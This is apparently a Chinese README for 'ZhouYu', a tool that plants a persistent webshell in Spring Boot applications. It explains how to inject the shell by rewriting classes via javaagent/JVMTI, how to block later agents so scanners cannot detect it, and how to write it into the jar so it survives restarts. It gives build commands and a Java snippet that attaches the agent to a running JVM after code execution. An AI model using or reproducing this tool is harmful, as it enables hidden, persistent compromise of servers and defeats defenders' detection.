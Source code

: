 *工具仅用于安全研究，禁止使用工具发起非法攻击，造成的后果使用者负责*

### ZhouYu -> 周瑜

Java - SpringBoot 持久化 WebShell

背景：后Spring时代，SpringBoot jar部署模式下，一般没有了JSP，所有的模板都在jar内，当大家都热衷于内存马的时候，发现很容易被查杀（网上查杀方式无外乎都是利用JVMTI重加载class的javaagent方式），并且重启后丢失！

1. ZhouYu带来新的webshell写入手法，通过javaagent，利用JVMTI机制，在回调时重写class类，插入webshell，并通过阻止后续javaagent加载的方式，防止webshell被查杀

2. 修改的class类插入webshell后，通过持久化到jar进行class替换，达到webshell持久化，任你如何重启都无法甩掉

### 一、打包编译

命令：
```text
gradle :agent:shadowJar
```
或
```text
./gradlew :agent:shadowJar
```

编译后得到 agent/build/libs/agent-xxx.jar，即ZhouYu.jar

### 二、使用方式

两种场景：

1. 当你知道jvm pid时，并且能写入临时文件（ZhouYu.jar），一般这种场景不太常见，测试场景比较多
```text
java -jar ZhouYu.jar 23232，23232为需要attach的jvm进程号！
```

2. 能执行一小段代码（内存shell的原理一般是反序列化时加载一段恶意字节码）

先把编译后得到的ZhouYu.jar写到临时目录，例：/tmp/ZhouYu.jar

接着执行下面代码：
```
try {
  String pid = java.lang.management.ManagementFactory.getRuntimeMXBean().getName();
  int indexOf = pid.indexOf('@');
  if (indexOf > 0) {
    pid = pid.substring(0, indexOf);
    Runtime.getRuntime().exec(String.format("java -jar /tmp/ZhouYu.jar %s", pid));
  }
} catch (Throwable throwable) {

}
```

### WARNNING

#### 为了防止出现生产事故，在对原有jar（A.jar）进行替换修改前，会对其进行备份，备份到当前目录下（命名为.A.jar.bk）